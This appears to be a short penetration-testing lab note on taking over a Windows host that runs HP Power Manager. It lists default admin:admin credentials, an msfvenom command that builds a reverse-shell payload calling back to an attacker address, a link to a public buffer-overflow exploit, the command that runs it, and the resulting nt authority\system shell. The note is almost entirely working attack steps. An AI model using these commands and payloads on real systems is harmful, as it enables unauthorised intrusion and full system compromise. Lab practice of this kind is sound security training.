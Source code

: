 -  [http://192.168.199.45](#http://192.168.199.45)

-  admin:admin

-  msfvenom \-p windows/shell\_reverse\_tcp LHOST=192\.168\.45\.203 LPORT=4411  EXITFUNC=thread \-b '\\x00\\x1a\\x3a\\x26\\x3f\\x25\\x23\\x20\\x0a\\x0d\\x2f\\x2b\\x0b\\x5' x86/alpha\_mixed \-\-platform windows \-f python
-  [https://github.com/CountablyInfinite/HP-Power-Manager-Buffer-Overflow-Python3.git](#https://github.com/CountablyInfinite/HP-Power-Manager-Buffer-Overflow-Python3.git)


-  python hp\_pm\_exploit\_p3\.py 192\.168\.199\.45 80 4411
-  C:\\Windows\\system32\>
whoami
nt authority\\system